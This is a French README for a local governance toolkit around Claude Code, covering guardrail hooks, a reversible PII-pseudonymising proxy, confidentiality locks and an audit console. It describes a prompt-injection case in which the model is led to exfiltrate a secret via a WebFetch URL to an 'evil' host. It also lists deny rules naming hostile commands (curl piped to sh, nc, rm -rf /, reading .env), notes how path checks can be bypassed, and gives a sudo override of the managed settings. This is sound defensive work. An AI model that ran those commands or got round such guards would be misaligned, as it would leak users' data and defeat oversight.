

# Console de gouvernance Claude Code (WSL Ubuntu)

Guardrails, pseudonymisation réversible des données sensibles, audit et console de pilotage
pour Claude Code, le tout sur votre poste, sans service externe.

## Architecture



### Les trois couches

| Couche | Composant | Rôle | Contournable par l'utilisateur ? |
|---|---|---|---|
| **Politique** | `managed-settings.json` | Niveau de priorité le plus haut de Claude Code : impose le proxy, la télémétrie, les `deny` sur les fichiers sensibles, désactive `--dangerously-skip-permissions`, n'autorise que les hooks gérés (`allowManagedHooksOnly`) | Non, sauf avec `sudo` (voir limites) |
| **Guardrails** | hooks `guard_prompt` / `guard_tool` | Décisions déterministes avant chaque prompt et chaque action : `deny`, `ask` (confirmation) ou rien | Non (hooks gérés) |
| **Anonymisation** | proxy + Presidio + Redis | Tout ce qui part vers l'API (prompts, contenu des fichiers lus, sorties de commandes) est pseudonymisé, puis ré-identifié au retour | Non : `ANTHROPIC_BASE_URL` est imposé par la politique |
| **Observabilité** | OTel → Prometheus/Loki → Grafana | Console : coûts, tokens, PII détectées, refus, confirmations, journal d'audit | — |

### Pourquoi une pseudonymisation *réversible*

Claude Code n'est pas un chatbot : il **écrit dans vos fichiers**. Si le modèle reçoit
`PII_EMAIL_3f9a2b1c` et produit un `Edit` avec ce jeton, il faut restituer la vraie valeur
avant que Claude Code ne l'écrive. Sinon vos fichiers se retrouvent truffés de placeholders.

- Jeton = `PII_<TYPE>_<HMAC-SHA256(secret, type|valeur)[:8]>`. Il est **déterministe** : la même valeur
  donne le même jeton à chaque requête. L'historique reste cohérent et le **prompt caching continue de fonctionner**.
- La table jeton → valeur ne quitte jamais votre poste. Elle vit dans Redis (en mémoire, sans persistance,
  avec TTL) et dans un cache du proxy.
- Streaming SSE : un jeton peut arriver coupé sur plusieurs fragments. Le proxy retient la fin
  ambiguë du fragment jusqu'au suivant. Dans les `input_json_delta` (arguments d'outils), la valeur
  restituée est échappée en JSON.
- Les blocs `thinking` ne sont jamais modifiés, sinon leur signature serait invalidée.
  Ils ne contiennent de toute façon que des jetons.
- **Anti-exfiltration** (`pii.rehydration`) : une injection de prompt pourrait faire produire
  `WebFetch("https://evil/?d=PII_SECRET_…")` pour que le proxy y mette la vraie valeur. Le proxy ne
  restitue donc **rien** dans `WebFetch`/`WebSearch`, et ne restitue les **secrets** que dans les outils
  d'écriture de fichiers (`Write`, `Edit`…). Dans `Bash` ou les outils MCP, le jeton `PII_SECRET_…` reste tel quel.

### Ce qui est détecté (`policy/policy.json`)

| Catégorie | Types | Méthode |
|---|---|---|
| Secrets | clés Anthropic, OpenAI, AWS, GitHub, GCP, Slack, JWT, clés privées, mots de passe dans les URL et les affectations | regex |
| PII françaises | e-mail, téléphone FR, IBAN (contrôle mod 97), NIR (clé de contrôle, Corse comprise), SIRET et carte bancaire (contrôle de Luhn) | regex + validateur |
| Entités nommées | personnes, lieux | Presidio + spaCy `fr_core_news_lg` |
| Clients, projets, termes internes | dictionnaire `policy/terms.json` | liste de termes (casse et espaces ignorés) |
| Montants | `125 000 € HT`, `3 M€`, `TJM 650`, `Prix unitaire : 450,00` | regex (devise, ou mot-clé prix/montant/TJM…) |

Le NER est appliqué aux **prompts saisis** et aux **documents** : sortie de `pdftotext`/`pandoc`, lecture de
`.md`, `.txt`, `.csv`… Pas au code, où il prend les noms de classes pour des personnes. Pour durcir,
ajoutez `"tool_result"` à `pii.presidio.scopes`.

**PDF et images** : le proxy ne sait pseudonymiser que du texte. Les blocs PDF et image sont donc retirés
des requêtes (`pii.request.blocked_media`) et la lecture directe d'un PDF par `Read` est refusée : Claude
passe par `pdftotext -layout fichier.pdf -`, dont la sortie est pseudonymisée.

### Guardrails (`tool_guard`)

| Règle | Exemples | Décision |
|---|---|---|
| Fichiers sensibles | `.env*` (sauf `.env.example`), `*.pem`, `~/.ssh`, `~/.aws`, `*.tfstate`, `secrets/` en lecture, écriture, recherche **et via Bash** (`cat .env`) | deny |
| Commandes dangereuses | `rm -rf /`, `curl … \| sh`, `nc`, `git push --force`, `chmod 777`, `dd of=/dev/…` | deny |
| SQL destructif | `DROP`, `TRUNCATE`, `GRANT`, `DELETE`/`UPDATE` **sans WHERE**, dans Bash (`psql`, `bq`, `duckdb`…) et dans les outils MCP | deny |
| Tables à données personnelles | `customers`, `employees`, `patients`… | ask |
| Actions à impact | `git push`, `terraform apply`, `kubectl apply`, `dbt run --target prod`, `curl`, `sudo` | ask |
| Exfiltration Bash | commande réseau (`curl`, `wget`, `nc`, `mail`…) contenant un secret / une PII | deny / ask |
| Secret écrit en dur | `Write` ou `Edit` contenant une clé API | ask |
| Exfiltration web | `WebFetch` vers pastebin, webhook.site, ngrok…, ou URL contenant une PII | deny |
| Prompt | secrets, NIR ou carte bancaire collés dans le prompt → **bloqué** ; autres PII → avertissement | block / warn |

Toutes les règles sont des regex dans `policy.json`. Les hooks relisent la politique à chaque appel.
Les règles sur des noms de commandes (`nc`, `curl`, `scp`…) sont ancrées sur la position de commande
(début, après `;`, `&&`, `|`, `$(`, `sudo`…) : `git commit -m "fix nc"` ne déclenche rien.
Le contrôle des chemins dans Bash couvre les redirections (`<.env`), les motifs (`cat .en?`, résolus sur
le disque) et les chemins dans du code inline (`open('.env')`). Il reste contournable par un code
déterminé (chemin construit dynamiquement) : le proxy est le filet de sécurité.

## Console d'administration (http://localhost:8788)

Application React (Vite + TypeScript + Tailwind) servie par une API FastAPI, dans le même conteneur.
Connexion avec le mot de passe `ADMIN_PASSWORD` de `.env` (cookie de session HttpOnly, 12 h).

| Écran | Usage |
|---|---|
| **Tableau de bord** | Santé du proxy et de la détection des noms, taille du dictionnaire, journal des refus, confirmations et pseudonymisations (filtrable). |
| **Clients** | Déclarer un client (code neutre `C001` + nom + variantes) : masqué immédiatement. Signale les dossiers de `~/clients` sans client déclaré. |
| **Client › Consultation** | Créer une consultation (`travail/DCE`, `travail/memoire-technique`, `_confidentiel`), déposer les fichiers par glisser-déposer en C2 ou C3, passer un fichier d'un niveau à l'autre, copier la commande `cd … && claude`. |
| **Projets** | Déclarer un dépôt de code de `~/project` (monté en lecture seule), l'associer à un client ou « interne », parcourir son arborescence et passer un fichier ou un dossier en C3 **sans le déplacer ni le renommer**, analyser le projet (termes du dictionnaire, fichiers de secrets, identifiants en dur, nom sensible dans le chemin), copier la commande `cd … && claude`. |
| **Simulateur** | Coller un texte : voir exactement ce que reçoit le modèle, jetons surlignés par type. |
| **Réglages** | Modèle d'IA (Claude / fournisseur de confiance). Données masquées : montants, e-mails, téléphones, IBAN, cartes, NIR, SIRET, adresses IP, images. Détection des noms (documents, sorties d'outils, seuil). Exceptions (termes jamais masqués ; un terme du dictionnaire est refusé). Actions sensibles : demander ou refuser (envoi réseau de données personnelles, SQL sur les tables listées, secret écrit en dur). Domaines web interdits (ajouts à la liste de base). Historique des modifications (aussi dans le tableau de bord, « protection réduite » signalée) et retour aux valeurs de `policy.json`. Non réglables par sécurité : secrets, fichiers sensibles, verrou C3, commandes interdites, fail-closed. |

Développement de l'interface : `cd admin/web && npm install && npm run dev` (API attendue sur :8788).

Les modifications sont prises en compte **en quelques secondes**, sans redémarrage : le proxy surveille
`~/.config/claude-governance/` (dictionnaire `terms.json`, réglages `overrides.json`) et les hooks le
relisent à chaque appel. Claude n'a aucun accès à ce dossier (lecture, écriture et Bash refusés).

## Modèle d'IA : Claude ou fournisseur de confiance

Interrupteur global dans la console (**Réglages › Modèle d'IA**), appliqué en quelques secondes :

| Fournisseur | Routage des requêtes de modèle (`/v1/messages`) | Authentification |
|---|---|---|
| **Claude** (défaut) | `https://api.anthropic.com` | abonnement de l'utilisateur, en-têtes relayés |
| **Fournisseur de confiance** | `TRUSTED_URL`, modèle `TRUSTED_MODEL` | `TRUSTED_API_KEY` du `.env` ; le jeton Claude n'est **jamais** transmis |

Le fournisseur de confiance est le seul autorisé à lire le contenu C3. Il doit exposer l'API
**Anthropic Messages** (`/v1/messages`). Variables du `.env` :

| Variable | Rôle |
|---|---|
| `TRUSTED_URL` | URL de base, sans `/v1` (ex. `http://litellm:4000`, `https://llm.mon-entreprise.fr`) |
| `TRUSTED_MODEL` | modèle imposé à toutes les requêtes |
| `TRUSTED_API_KEY` | clé du fournisseur |
| `TRUSTED_NAME` | nom affiché dans la console et la ligne d'état (défaut : « Fournisseur de confiance ») |
| `TRUSTED_AUTH` | `x-api-key` (défaut) ou `bearer` (`Authorization: Bearer …`) |

### Brancher GPT, Gemini, Mistral, Copilot, Ollama… avec LiteLLM

Pour un fournisseur qui ne parle pas le format Anthropic, activez la passerelle
[LiteLLM](https://github.com/BerriAI/litellm) fournie en option : elle traduit vers OpenAI, Gemini, Mistral,
Azure OpenAI, GitHub Copilot, Ollama, vLLM, etc.

```bash
cp litellm/config.example.yaml litellm/config.yaml   # garder le ou les modèles voulus
# dans .env :
#   LITELLM_MASTER_KEY=<une clé longue au hasard>
#   OPENAI_API_KEY=...            (ou GEMINI_API_KEY, MISTRAL_API_KEY...)
#   TRUSTED_URL=http://litellm:4000
#   TRUSTED_MODEL=gpt             (le model_name de litellm/config.yaml)
#   TRUSTED_API_KEY=<même valeur que LITELLM_MASTER_KEY>
#   TRUSTED_NAME=GPT (OpenAI)
docker compose --profile litellm up -d
docker compose up -d --force-recreate proxy admin
```

> ⚠️ Le contenu C3 est envoyé (pseudonymisé) au fournisseur de confiance. Ne choisissez comme fournisseur
> de confiance qu'un service à qui vous confiez réellement ces données : un modèle local (Ollama, vLLM) ou
> hébergé par votre organisation, ou un fournisseur couvert par votre contrat.

### Comportement

- La pseudonymisation et les guardrails s'appliquent dans les deux cas : une session peut changer de
  fournisseur sans qu'aucune donnée en clair n'atteigne Anthropic.
- En mode fournisseur de confiance, le proxy ne garde que les événements SSE standard (certains serveurs
  compatibles ajoutent des copies non ré-identifiables) et répond lui-même à `count_tokens` (estimation).
- Après une bascule, ouvrez une **nouvelle session** (ou `/clear`) : les blocs de raisonnement d'un
  modèle ne sont pas valides pour l'autre.
- Selon le modèle choisi, le fournisseur de confiance peut être moins fiable que Claude sur le code et les
  tâches longues, avec un contexte plus court (Claude Code peut tarder à compacter la conversation).

### Verrou C3 (fournisseur de confiance uniquement)

Trois verrous indépendants garantissent qu'un contenu C3 n'atteint jamais Anthropic :

1. **Hooks** : tout accès C3 (Read, Grep, Glob, Bash, MCP — détecté par `tool_guard.c3_marker_regex`)
   est refusé si Claude est le fournisseur actif. Avec le fournisseur de confiance, il est autorisé et la session est inscrite
   dans `~/.config/claude-governance/c3-sessions.json` (fermée au `SessionEnd`).
2. **Console** : retour à Claude refusé tant qu'une session C3 est ouverte (clôture manuelle possible
   si Claude Code a été fermé brutalement ; inactive depuis 12 h = fermée).
3. **Proxy**, en mode Claude : refuse (403) toute requête d'une session inscrite C3 — même terminée ou
   reprise des jours plus tard (`x-claude-code-session-id`) —, toute requête dont l'historique contient
   un accès C3, et toutes les requêtes si le registre est illisible (fail-closed).

### Chemins C3 déclarés (projets de code)

Dans un dépôt de code, renommer un fichier pour le marquer C3 casserait les références du code. L'écran
**Projets** permet de déclarer des chemins C3 en place. La console écrit `c3-paths.json` (chemins absolus
côté hôte) dans `~/.config/claude-governance`, relu à chaud par les hooks et le proxy, en plus du marqueur
de `policy.json` :

- **Hooks** : tout chemin visé par Read/Edit/Write, Grep, Glob, Bash (y compris un mot sans `/`, un motif
  `*`, ou un chemin relatif après `cd`) est résolu depuis le répertoire de travail et comparé aux chemins
  déclarés. Une **recherche récursive** (Grep sur un dossier, `grep -r`, `rg`, `find`, `tar`, `git grep`…)
  sur un **dossier parent** d'un chemin C3, ou d'un dossier portant le marqueur C3, est traitée comme un
  accès C3. Si le dossier est trop gros pour le vérifier (plus de 20 000 entrées ou 0,6 s), elle est
  refusée avec Claude : ciblez un sous-dossier.
- **Proxy** : refuse toute requête dont l'historique contient un chemin absolu déclaré C3. Il ne connaît
  pas le répertoire de travail : les chemins relatifs sont couverts par les hooks et le registre des
  sessions C3.
- `c3-paths.json` illisible : les hooks refusent toute action (fail-closed) ; le proxy garde la
  configuration précédente.
- Limite : un programme qui parcourt lui-même le disque (script Python, test, build) n'est pas
  analysé. Ne lancez pas avec Claude un outil qui lit le contenu des chemins C3.

## Usage appels d'offres et projets clients

Trois niveaux de confidentialité, appliqués par convention de rangement :

| Niveau | Exemples | Traitement | Comment |
|---|---|---|---|
| **C3 — jamais chez Anthropic** | offre de prix, pièces sous NDA, contenu technique stratégique | illisible avec Claude ; lisible **uniquement avec le fournisseur de confiance**, session alors verrouillée | ranger dans un dossier `_confidentiel/` ou nommer `*.confidentiel.*` |
| **C2 — pseudonymisé** | DCE, CCTP, mémoire technique, CV | clients, projets, montants, personnes, contacts remplacés par des jetons | `policy/terms.json` + règles par défaut |
| **C1 — libre** | code, documentation publique | secrets et PII remplacés par des jetons | règles par défaut |

**Dictionnaire des clients.** Géré par la console (écran Clients). Listez toutes les variantes d'un nom
(accents, sigles, ancien nom, filiales) : c'est la protection la plus fiable pour les noms, le NER ne
détectant pas les organisations. Utilisez un code neutre (`C001`) pour les dossiers : les chemins sont
envoyés au modèle.

**Ce qui part malgré tout chez Anthropic** : le fond des documents C2 (exigences, approche technique,
structure de l'offre), avec des jetons à la place des identifiants. Le modèle ne voit plus les montants :
il ne peut plus calculer un total ni vérifier la cohérence d'un BPU/DQE. Mettez `enabled: false` sur les
motifs `MONTANT` si vous en avez besoin pour une tâche donnée.

**Abonnement Pro.** Testé : l'authentification Pro passe bien par le proxy. Vérifiez sur claude.ai, dans
les paramètres de confidentialité, que l'utilisation de vos conversations pour l'entraînement est
désactivée. Pour des données clients sous contrat, un plan Team/Enterprise ou une clé API (conditions
commerciales) offre un cadre contractuel plus adapté que les conditions grand public.

## Installation

Prérequis : WSL2 Ubuntu 22.04 ou 24.04, Python ≥ 3.9, Docker (Docker Desktop avec intégration WSL,
ou `docker-ce` installé dans WSL), Claude Code, `sudo`.

```bash
unzip claude-governance.zip && cd claude-governance
python3 -m pytest -q tests      # optionnel : 200 tests du moteur, des hooks, de la console, des projets, des réglages, de la bascule Claude / fournisseur de confiance et du verrou C3 (pip install pytest fastapi python-multipart httpx prometheus-client)
./install.sh                    # ~5 min au premier lancement (build de Presidio avec le modèle français)
./scripts/smoke-test.sh         # vérification de bout en bout
```

L'ordre d'`install.sh` est volontaire. Les hooks et la stack sont installés et testés d'abord, et
`managed-settings.json` est déployé **en dernier**, puisque dès qu'il existe, Claude Code passe par le proxy.

`./install.sh --no-stack` installe uniquement les guardrails (hooks + permissions), sans Docker,
proxy ni télémétrie.

Puis, dans Claude Code :

```
/status      → "Setting sources" doit citer les managed settings
/hooks       → les hooks gérés doivent apparaître
```

Console Grafana : **http://localhost:3001** (identifiant `admin`, mot de passe dans `.env`). Le tableau de bord
« Claude Code — Console de gouvernance » est provisionné automatiquement.

## Exploitation

| Besoin | Action |
|---|---|
| Ajouter un client, une consultation, des fichiers | console http://localhost:8788 |
| Modifier une règle avancée | éditer `policy/policy.json`, puis `./install.sh` (hooks) ; le proxy la recharge seul |
| Voir l'audit brut | `tail -f /var/log/claude-governance/*.jsonl \| jq` |
| Logs du proxy | `docker compose logs -f proxy` |
| Proxy en panne | Claude Code renvoie une erreur de connexion : c'est le comportement **fail-closed** voulu. `docker compose up -d` |
| Contournement d'urgence | `sudo mv /etc/claude-code/managed-settings.json{,.off}` (tracé par le hook `ConfigChange` au retour) |
| Désinstaller | `./uninstall.sh` (garde l'audit) ou `./uninstall.sh --purge` |

L'audit ne contient **jamais de valeur sensible en clair** : uniquement des types (`EMAIL: 2`),
des empreintes de prompt (SHA-256 tronqué) et des cibles masquées (`echo [EMAIL]`).

## Limites, à connaître

1. **Poste administré par son utilisateur.** Sous WSL, quiconque a `sudo` peut modifier `/etc/claude-code`.
   Ce dispositif protège contre les erreurs et les comportements non voulus de l'agent, pas contre
   un administrateur local malveillant. Pour un vrai contrôle d'entreprise, publiez la même politique via les
   *server-managed settings* de la console claude.ai et mettez le proxy sur un serveur partagé.
2. **Détection imparfaite.** Les regex et le NER ont des faux négatifs, surtout sur du texte libre
   et des formats métiers maison. Ajoutez vos propres motifs (matricules, numéros de contrat…) dans `pii.patterns`.
3. **Qualité des réponses.** Le modèle raisonne sur `PII_PERSON_…` au lieu d'un nom. C'est sans effet sur
   du code, mais ça peut gêner sur des tâches où la valeur compte (validation de format, dédoublonnage).
   Le jeton garde le type, ce qui limite l'effet.
4. **À valider sur votre poste** (impossible à tester ici, sans accès réseau) :
   - la prise en compte de `NLP_CONF_FILE`/`ANALYZER_CONF_FILE` par l'image Presidio (test n° 2 de `smoke-test.sh`) ;
   - les versions des images (`docker-compose.yml`, figées mi-2025 : mettez-les à jour) ;
5. **PDF scannés** : `pdftotext` ne renvoie rien sur un PDF image. L'OCR se fait en local :
   `ocrmypdf -l fra --force-ocr scan.pdf scan.ocr.pdf`, puis `pdftotext` sur le résultat. La sortie de
   `ocrmypdf`/`tesseract` est traitée comme un document (NER actif). Les images restent retirées des requêtes.
6. **Dictionnaire** : un client absent de `terms.json` n'est pas masqué (sauf si le NER le prend pour
   un lieu ou une personne). Mettez-le à jour à chaque nouvelle consultation.

## Évolutions possibles

- Déplacer le proxy sur un serveur et le partager entre plusieurs postes (même image), avec Redis managé.
- Remplacer les regex `tool_guard` par OPA/Rego pour une politique versionnée et testée en CI.
- Ajouter des recognizers Presidio maison pour vos référentiels (matricules RH, numéros client).
- Alertes Grafana : fail-closed > 0, pic de `deny`, coût journalier au-delà d'un seuil.

## Arborescence

```
claude-governance/
├── claude/managed-settings.json     politique Claude Code → /etc/claude-code/
├── policy/policy.json               règles PII + guardrails (source unique)
├── policy/terms.example.json        format du dictionnaire (géré par la console)
├── admin/govadmin/                  API de la console (FastAPI)
├── admin/web/                       interface de la console (React + TypeScript + Tailwind)
├── hooks/                           guard_prompt, guard_tool, audit (stdlib Python)
├── proxy/app/                       pii.py (moteur), stream.py (SSE), main.py (FastAPI)
├── presidio/                        image Presidio + modèle spaCy français
├── observability/                   OTel collector, Prometheus, Loki, Grafana + dashboard
├── tests/                           pytest : moteur, streaming, hooks, console, projets
├── scripts/smoke-test.sh            vérification de bout en bout
├── docker-compose.yml
├── install.sh / uninstall.sh
└── .env.example
```
